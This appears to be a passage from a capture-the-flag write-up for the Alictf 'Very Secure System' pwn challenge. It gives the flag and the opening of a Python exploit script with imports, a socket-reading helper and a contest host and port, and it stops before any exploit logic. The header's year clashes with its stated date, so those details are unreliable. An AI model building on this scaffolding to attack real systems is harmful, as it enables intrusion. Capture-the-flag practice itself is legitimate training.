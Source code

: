 Finally we make a python script to perform the attack and we get the flag: alictf{n0t_v3ry_secure}


### Code

    #!/usr/bin/env python2
    # --------------------------------------------------------------------------------------------------
    # Contest  : Alictf 2016
    # Date     : 04/06 - 06/06/2015 (48hr)
    # Member   : ispo@b01lers
    # Challenge: VSS - Very Secure System (Pwn 100)
    # Description: VSS
    #			   It's a very secure system. (attachment)
    #
    #    		   nc 121.40.56.102 2333
    #
    # (NOTE: for a better view set tab width to 4)
    # --------------------------------------------------------------------------------------------------
    import struct
    import sys
    import socket
    import telnetlib
    from struct import pack
    # --------------------------------------------------------------------------------------------------
    def recv_until(st):                    			# receive until you encounter a string
      ret = ""
      while st not in ret:
        ret += s.recv(16384)

      return ret

    # --------------------------------------------------------------------------------------------------
    if __name__ == "__main__":
